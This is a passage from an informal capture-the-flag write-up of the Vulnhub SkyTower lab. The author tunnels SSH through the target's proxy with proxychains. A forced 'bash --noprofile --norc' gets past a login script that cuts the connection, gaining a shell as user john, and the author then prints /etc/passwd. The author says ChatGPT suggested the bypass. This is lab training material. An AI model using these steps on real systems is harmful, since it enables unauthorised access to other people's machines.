 ```
Last login: Sat Mar 29 03:32:32 2025 from 192.168.56.101

Funds have been withdrawn
Connection to 192.168.56.101 closed.
                                                                                   
```

how can i cry cant get the access direct Oops i have to use chat GPT to give me the reason i try to execute the command and see if i can gain the execution

```
┌──(cyberkid㉿kali)-[~/Desktop/Vulnhub/skytower]
└─$ proxychains ssh -oHostKeyAlgorithms=+ssh-rsa john@192.168.56.101 "id; whoami; echo \$SHELL"

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  192.168.56.101:3128  ...  192.168.56.101:22  ...  OK
john@192.168.56.101's password: 
uid=1000(john) gid=1000(john) groups=1000(john)
john
/bin/bash

```

For multiple testing and chatgpt game this and loged me sucessfully

```
┌──(cyberkid㉿kali)-[~/Desktop/Vulnhub/skytower]
└─$ proxychains ssh -oHostKeyAlgorithms=+ssh-rsa john@192.168.56.101 -t "bash --noprofile --norc"

[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  192.168.56.101:3128  ...  192.168.56.101:22  ...  OK
john@192.168.56.101's password: 
bash-4.2$ 

```
	HAPPY HAPPY HAPPY

## Enumaration

#indentfying the users by cat the /etc/passwd
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
```